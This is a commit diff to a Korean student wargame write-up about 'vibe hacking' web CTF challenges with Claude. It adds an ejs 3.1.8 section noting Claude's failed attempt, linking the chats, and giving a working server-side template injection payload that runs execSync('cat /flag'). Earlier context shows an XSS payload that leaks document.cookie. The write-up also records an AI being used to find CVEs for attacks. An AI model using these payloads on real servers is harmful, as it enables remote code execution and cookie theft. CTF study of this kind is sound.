

Before and after one commit to IFF-Security/my-web-wargame, a Markdown page: week6/1_vibe_hacking.md, 2 parts joined by grey strips. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
ejs@3.1.8 관련 내용 추가 (Claude의 실패, PoC 누더기질한 풀이)

```diff
--- a/week6/1_vibe_hacking.md
+++ b/week6/1_vibe_hacking.md
@@ -10,6 +10,7 @@
   - [첫번째 시도 (성공)](#첫번째-시도-성공-1)
   - [두번째 시도 (실패)](#두번째-시도-실패)
   - [세번째 시도 (성공?)](#세번째-시도-성공)
+- [ejs@3.1.8](#ejs318)
 
 ## 제공한 프롬프트
 * [노션 문서 참고](https://runas.notion.site/Vibe-Hacking-Prompt-24ab98a29a8a8041bf2cf75e5142182f?source=copy_link)
@@ -65,3 +66,18 @@
     `<img src="/memo?memo=" onerror="this.src+=document.cookie">`
   * 해당 태그에서, src에 document.cookie를 추가해도 정상적인 이미지로 처리되지 않아 onerror이 무한히 호출되는 버그를 일으킨 것으로 보임
   ![실제 버그 사진](image.png)
+
+## ejs@3.1.8
+
+* 대화 내역
+  * [#1](https://claude.ai/share/16450852-084c-4a3e-ba11-da6744395006)
+  * [#2](https://claude.ai/share/86de269a-1679-40ab-a5fa-8506ef3f2162)
+* Claude 풀이 검토
+  * 솔직히 ejs 3.1.8의 취약점이나 CVE-2022-29078 이런 애들을 몰라서 뭐가 뭔지 모르겠습니다...
+  * package.json 파일만 추가로 제공했을 뿐인데, index.js에서 ejs를 사용한 것만 보고 ejs의 번호를 확인하고 관련 CVE를 찾는 것이 매우 신기했음
+* 찐 풀이
+  * ※ 아직 취약점에 대한 공부는 제대로 안했고, 그냥 어떻게 찾은 PoC에 누더기질함... ㅋㅋ
+  * 풀이: `{url}/?settings[view options][client]=true&settings[view options][escapeFunction]=1;return global.process.mainModule.constructor._load('child_process').execSync('cat /flag');`
+  * 참고한 URL
+    * PoC: [ejs 3.1.6 ssti](https://minpo.tistory.com/198) 맨 밑 줄
+    * PoC 설명: [[EJS] EJS 3.1.9(3.1.10) SSTI vulnerable 연구](https://busu.ng/entry/EJS-EJS-3193110-SSTI-vulnerable-%EC%97%B0%EA%B5%AC), [Github Issue #735](https://github.com/mde/ejs/issues/735)
```
